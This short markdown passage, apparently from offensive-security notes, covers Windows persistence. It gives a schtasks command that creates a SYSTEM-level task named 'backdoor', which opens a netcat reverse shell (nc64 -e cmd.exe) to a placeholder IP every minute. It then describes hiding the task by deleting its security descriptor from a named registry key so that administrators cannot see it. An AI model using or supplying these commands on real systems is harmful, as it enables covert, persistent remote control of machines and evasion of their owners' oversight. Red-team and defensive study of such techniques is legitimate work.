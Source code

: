 ### Scheduling tasks
- Create a task that runs every minutes and runs a reverse shell
```powershell
# Create a task
schtasks /create /sc minute /mo 1 /tn backdoor /tr "c:\tools\nc64 -e cmd.exe <IP> <PORT>" /ru SYSTEM

# Check the task
schtasks /query /tn backdoor
```

### Hiding the task
- We can delete the security descriptor (SD) of the task so that no user, not even administrator can query this task.
- SD is an ACL that defines which users have access to the tasks.
- SD of tasks are stored at `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\backdoor` under a key named `SD`.
- Changing the value is only allowed by SYSTEM.